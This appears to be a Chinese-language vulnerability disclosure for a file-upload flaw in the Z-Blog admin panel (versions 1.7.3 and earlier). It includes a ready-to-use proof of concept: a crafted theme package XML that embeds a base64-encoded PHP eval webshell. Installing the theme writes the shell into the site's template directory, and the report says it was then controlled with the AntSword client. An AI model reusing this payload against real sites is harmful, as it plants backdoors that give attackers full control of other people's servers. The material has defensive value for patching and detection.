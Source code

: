 Vulnerability File: zba主题文件

Z-Blog后台文件上传漏洞，影响版本1.7.3及以下 系统对主题文件代码没有做审查，导致将恶意代码写入主题文件后，被系统生成为文件。黑客可以利用这个漏洞，将恶意代码生成至网站目录，而后通过工具完全控制其主机。

状态：严重

**登陆管理后台后，通过上传精心构造的zba主题文件**，成功将木马存放至\zb_users\theme\shell\template\目录下，使用中国蚁剑连接成功

poc

```xml
<?xml version="1.0" encoding="utf-8"?><app version="php" type="theme"><id>aymFreeFive</id><name>shell</name><url>https://xxx.xxx</url><note>shell</note><description>shell</description><path>settings/main.php</path><include>include.php</include><level>1</level><author><name>shell</name><email>iyuanma@qq.com</email><url>https://xxx.xxx/</url></author><source><name>shell</name><email>xxx@qq.com</email><url>https://xxx.xxx</url></source><adapted>1</adapted><version>1</version><pubdate>2024-12-05</pubdate><modified>2024-12-05</modified><price>0</price><phpver>5.5</phpver><advanced><dependency></dependency><rewritefunctions></rewritefunctions><existsfunctions></existsfunctions>
<conflict></conflict></advanced><sidebars><sidebar1></sidebar1><sidebar2></sidebar2><sidebar3></sidebar3><sidebar4></sidebar4><sidebar5></sidebar5><sidebar6></sidebar6><sidebar7></sidebar7><sidebar8></sidebar8><sidebar9></sidebar9></sidebars>
<folder><path>shell/scripts/</path></folder>
<folder><path>shell/settings/</path></folder>
<folder><path>shell/style/images/</path></folder>
<folder><path>shell/style/</path></folder>
<folder><path>shell/template/</path></folder>
<file><path>shell/template/shelll.php</path><stream>PD9waHAgQGV2YWwoJF9QT1NUWydwYXNzJ10pID8+</stream></file>
<verify>aHR0cDovL2xvY2FsaG9zdC9ia2IvCkM6L3hhbXBwL2h0ZG9jcy9ia2Iv</verify></app>
```

